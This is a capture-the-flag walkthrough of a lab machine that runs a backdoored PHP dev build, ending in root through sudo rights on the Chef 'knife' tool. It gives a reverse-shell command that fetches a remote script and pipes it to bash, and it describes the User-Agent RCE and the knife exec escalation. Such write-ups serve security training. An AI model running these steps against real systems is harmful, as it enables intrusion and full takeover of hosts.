






# PORT SCAN
* **22** &#8594; SSH
* **80** &#8594; HTTP (APACHE 1.18)

   

# ENUMERATION & USER FLAG

The webpage is a simple page whit nothing to interract

I used **<u>nikto</u>** (dirbusting return nothing) to have more information about the technology used on the target

The PHP version seems very suspicious, especially the `dev` part, With a quick research I can discover that is vulbnerable to RCE modifying the **<u>User-Agent</u>** header. I tried to puing on my machine and we can accomplish the RCE correctly! 

> The story behind this backdoor is pretty interesting, at first the PHP development team tought about a compromise github account but during investigation everything point to the **<u>compromise of the git.php.net server</u>**. After that the whole team migrate from their own Git infrastructure to GitHub assuming that mantaining their own was an "unnecessary risk". cool to know the little story behind!

Now we can spawn a reverse shell abusing this backdoor with the command `curl http://10.10.14.15/l.sh | bash`

This is enough effort forthe user flag!

   

# PRIVILEGE ESCALATION

`sudo -l` is always a good place if you search something juicy! This time we have access as root at `/usr/bin/knife`.
[Knife](https://docs.chef.io/workstation/knife/) is a CLI which act as interface between chef-repo and [Chef Infra Server](https://docs.chef.io/server/) a HUB for configuration files (cookbooks) that can be applied to the nodes.
By the way we can execute commands with Knife through the `-E` flag in combination with `exec` subcommand, I found this at [GTFO](https://gtfobins.github.io/gtfobins/knife/)

We used the knife of the target against him!
